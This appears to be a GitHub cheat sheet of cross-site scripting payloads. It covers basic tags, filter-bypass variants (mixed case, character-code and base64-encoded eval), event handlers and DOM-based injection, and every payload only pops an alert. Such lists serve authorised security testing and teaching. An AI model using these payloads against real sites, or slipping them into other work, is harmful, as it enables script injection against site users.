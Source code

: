 # Cross-Site Scripting (XSS) Payloads

## Basic XSS
```
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src=javascript:alert('XSS')>
```

## Bypass Filters
```
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert(String.fromCharCode(88,83,83))</script>
<img src="x" onerror="alert('XSS')">
<svg/onload=alert('XSS')>
```

## Event Handlers
```
<body onload=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>
<textarea onfocus=alert('XSS') autofocus>
```

## DOM-based XSS
```
javascript:alert('XSS')
<img src=x onerror=eval(atob('YWxlcnQoJ1hTUycp'))>
<script>document.write('<img src=x onerror=alert(1)>')</script>
```